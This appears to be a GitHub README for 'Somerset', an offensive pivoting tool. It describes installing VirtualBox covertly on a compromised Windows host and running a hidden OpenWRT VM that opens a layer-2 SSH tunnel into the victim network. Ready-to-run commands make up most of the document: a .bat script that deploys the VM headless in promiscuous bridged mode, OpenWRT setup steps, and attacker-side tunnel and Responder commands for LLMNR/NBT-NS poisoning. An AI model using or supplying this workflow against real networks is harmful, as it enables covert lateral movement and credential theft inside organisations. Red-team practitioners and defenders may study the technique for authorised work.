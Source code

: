 # Somerset: Offensive Router for Windows Pivoting

Somerset - is a small **ash** script to prepare OpenWRT for an L2 VPN SSH tunnel for post-exploitation against Windows

![](/poc-images/somerset-cover.png)

> Cover

# Scenario

This is a very specific vector of pivoting, which is a quiet installation of VirtualBox on compromised Windows. The attacker then creates a virtual machine with OpenWRT in the same quiet mode by connecting a specially prepared OpenWRT VDI disk. It is important to realize that this vector requires local administrator rights on a Windows machine.

The most important point here is for the OpenWRT interface in the Vbox to be in post mode and not have an promiscuous mode. This is necessary to initiate exactly the L2 tunnel to conduct link layer attacks, utilize Responder, and so on. This vector is good because it works from anywhere in the infrastructure, since everything will be encapsulated in the SSH tunnel.

It is important to prepare a VDI image in advance. You can convert it from `.img`, here is an example:

I used the OpenWRT image version 19.07.6:

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe convertdd "C:\openwrt\openwrt.img" "C:\openwrt\openwrt.vdi" 

Creating dynamic image with size 285736960 bytes (273MB)...
```

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe modifyhd --resize 512 "C:\openwrt\openwrt.vdi" 
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
```

![](/poc-images/research-scheme.jpg)

> Research Scheme

# SSH Dropbear Issue

By default, OpenWRT uses the dropbear implementation for SSH. It does not know how to work with SSH tunnels. Therefore, it will be replaced by `openssh-server`

# Script Mechanics

This script turns an OpenWRT router into an SSH pivoting tool. It does the following:

1) Installation of necessary packages: `ss`, `ip-full`, `kmod-tun`, `openssh-server`
2) Turns off unnecessary DNS and HTTP services, they will only interfere with the pivoting process
3) Replaces `dropbear`, changes its port to 2222, shuts down the daemon. That is, it replaces `dropbear` with `openssh-server`
4) Configuring interfaces. OpenWRT already has a `br-lan` bridge. The task is to create a tap0-interface, enable it and move it to this bridge. And also to activate the unshared mode everywhere.

You should also configure `rc.local` to get the address automatically when you start OpenWRT. This is very important when you deploy the router to a victim. You will need to find this address from the target network. You can scan port 22, since it will always be used on OpenWRT.

```
vi rc.local

udhcpc -i br-lan
echo "nameserver 8.8.8.8" > /etc/resolv.conf

exit 0
```


# Silent OpenWRT Deployment

A small .bat script to automate the creation of an OpenWRT virtual machine

### wrt_vbox_deploy.bat

View the list of adapters in the system

```powershell
Get-NetAdapter
```

```powershell
@echo off

set VMNAME=Somerset
set VMMEMORY=512
set VMCPUS=1
set VMDISK=C:\openwrt\openwrt.vdi
set VMNIC1=bridged
set VMADAPTER1=" " # Specify here the interface of the real Windows
set VMPROMISC1=allow-all

"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" createvm --name "%VMNAME%" --register
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --memory %VMMEMORY% --cpus %VMCPUS%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storagectl "%VMNAME%" --name "SATA Controller" --add sata --controller IntelAHCI
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storageattach "%VMNAME%" --storagectl "SATA Controller" --port 0 --device 0 --type hdd --medium "%VMDISK%"
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nic1 %VMNIC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --bridgeadapter1 %VMADAPTER1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nicpromisc1 %VMPROMISC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" startvm "%VMNAME%" --type headless
```

```powershell
C:\openwrt\wrt_vbox_deploy.bat
```

# Tunnel Init

For the script to work correctly, it must be processed for execution in the ASH shell. You need to send this ASH script to OpenWRT somehow, I don't think you'll have a problem with that. You can even use `vsftpd` for that.

```bash
caster@kali:~$ ssh root@<OpenWRT IP>
```

```
root@OpenWrt:/# sed -i 's/\r//' somerset.ash
root@OpenWrt:/# chmod +x somerset.ash
root@OpenWrt:/# ash somerset.ash
```

You don't have to worry about silence on the OpenWRT side. It doesn't make noise on the air, it doesn't even transmit hostname via DHCP. After running the script, a tap0-interface will be prepared. Now it is the attacker's task to initiate the tunnel from his side.

## Attacker Side

It is also important to create a /32 route to the OpenWRT endpoint before initiating the SSH tunnel to avoid disconnecting the connection

```bash
caster@kali:~$ sudo route add -net <openwrt_ip> netmask 255.255.255.255 gw <gw_ip>
```

```bash
caster@kali:~$ sudo ssh -oHostKeyAlgorithms=+ssh-rsa -oTunnel=ethernet -w 0:0 root@<OpenWRT IP>
caster@kali:~$ sudo ip link set tap0 up
caster@kali:~$ sudo dhclient -v tap0; sudo route del default
caster@kali:~$ sudo responder -I tap0 -vvv
```

# Proof of Concept (LLMNR/NBT-NS Poisoning, Scanning)

![](/poc-images/cursedpivoting-dhcpaddr.png)

> Address received

![](/poc-images/cursedpivoting-responder.png)

> LLMNR/NBT-NS Poisoning

![](/poc-images/cursedpivoting-netdiscover.png)

> ARP Scanning

# Outro

This is an extremely specific vector of pivoting, however I have proven its practicality.
